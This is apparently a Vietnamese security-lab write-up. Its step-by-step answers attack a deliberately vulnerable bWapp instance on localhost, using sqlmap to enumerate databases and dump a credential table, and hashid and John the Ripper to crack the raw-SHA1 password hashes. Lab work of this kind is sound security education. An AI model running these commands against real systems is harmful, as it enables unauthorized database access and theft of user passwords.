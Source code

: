 
# Task 2: Attack on the database of bWapp

## 1. Cài đặt bWapp
- Cài đặt bWapp theo tài liệu tại [quang-ute/Security-labs/Web-security](https://github.com/quang-ute/Security-labs).
- Khởi chạy bWapp và đảm bảo rằng hệ thống đang hoạt động trên localhost (hoặc docker).

## 2. Cài đặt sqlmap
- Cài đặt sqlmap (một công cụ tự động kiểm tra lỗ hổng SQL Injection) bằng cách sử dụng câu lệnh:
  ```bash
  sudo apt install sqlmap
  ```
  
---

## Question 1: Use sqlmap to get information about all available databases

### Answer 1:
Để lấy thông tin về tất cả các database có trên website mục tiêu, sử dụng sqlmap với tham số `--dbs`.

**Bước 1**: Xác định endpoint cần tấn công bằng cách thử đăng nhập vào trang bWapp với thông tin bất kỳ. Sau đó, kiểm tra mạng (F12 trên trình duyệt) để xác định điểm kết nối.

- Khi truy cập vào trang đăng nhập bWapp, chúng ta thấy yêu cầu được gửi đến endpoint:
  ```
  http://localhost:3128/unsafe_home.php?username=test&password=test
  ```

**Bước 2**: Vì chúng ta đang chạy bên trong docker, cần thay thế cổng 3128 bằng cổng 80.

**Bước 3**: Chạy câu lệnh sqlmap để lấy thông tin về các database có sẵn:
  ```bash
  sqlmap -u "http://localhost:80/unsafe_home.php?username=test&password=test" --dbs
  ```

---

## Question 2: Use sqlmap to get tables, users information

### Answer 2:
Sau khi lấy được thông tin về các database (ví dụ: `information_schema` và `sqllab_users`), chúng ta sẽ tiếp tục khai thác các bảng và thông tin người dùng từ database `sqllab_users`.

**Bước 1**: Lấy các bảng từ database `sqllab_users` bằng lệnh:
  ```bash
  sqlmap -u "http://localhost:80/unsafe_home.php?username=test&password=test" -D sqllab_users --tables
  ```

**Bước 2**: Lấy toàn bộ dữ liệu từ bảng `credential` trong database `sqllab_users`:
  ```bash
  sqlmap -u "http://localhost:80/unsafe_home.php?username=test&password=test" -D sqllab_users -T credential --dump
  ```

- **Kết quả**: Bảng `credential` chứa thông tin người dùng với các mật khẩu đã được mã hóa (hashed).

---

## Question 3: Use John the Ripper to disclose the password of all database users from the above exploit

### Answer 3:
Ở câu hỏi trước, chúng ta đã dump được các mật khẩu hashed từ bảng `credential`. Bây giờ, chúng ta sẽ sử dụng công cụ John the Ripper để crack các mật khẩu này.

**Bước 1**: Lưu các mật khẩu đã mã hóa vào một file (ví dụ: `hash_pw.txt`).

**Bước 2**: Xác định loại mã hóa của mật khẩu bằng cách sử dụng thư viện hashid trong Python:
  ```bash
  hashid -mj hash_pw.txt
  ```

- **Kết quả**: Hashid chỉ ra rằng các mật khẩu được mã hóa bằng thuật toán `raw-SHA1`.

**Bước 3**: Sử dụng John the Ripper để crack các mật khẩu:
  ```bash
  john --format=Raw-SHA1 hash_pw.txt
  ```
  
- **Kết quả**: Tất cả các mật khẩu đã được crack thành công.

---
